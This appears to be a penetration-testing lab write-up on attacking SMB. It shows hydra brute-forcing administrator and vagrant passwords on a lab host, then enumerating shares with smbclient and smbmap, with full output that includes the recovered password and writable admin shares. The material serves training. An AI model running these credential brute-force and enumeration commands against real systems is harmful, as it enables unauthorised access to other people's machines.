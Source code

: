 

---

#### Targeting SMB    

**bruteforce SMB credentials with hydra**

```bash
root@attackdefense:~# hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://10.4.18.58 -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:25:29
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://10.4.18.58:445/
[445][smb] host: 10.4.18.58   login: administrator   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-12 00:25:56


root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://10.4.18.58
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:26:19
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://10.4.18.58:445/
[445][smb] host: 10.4.18.58   login: vagrant   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-12 00:26:46
```

now we can authenticate via RDP with this credentials because rdp is enabled



**enumerate smb shares **

```bash
root@attackdefense:~# smbclient -L 10.4.18.58 -U vagrant
Enter WORKGROUP\vagrant's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.




root@attackdefense:~# smbmap -u vagrant -p vagrant -H 10.4.18.58 
[+] IP: 10.4.18.58:445  Name: demo.ine.local                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    NO ACCESS       Remote IPC
```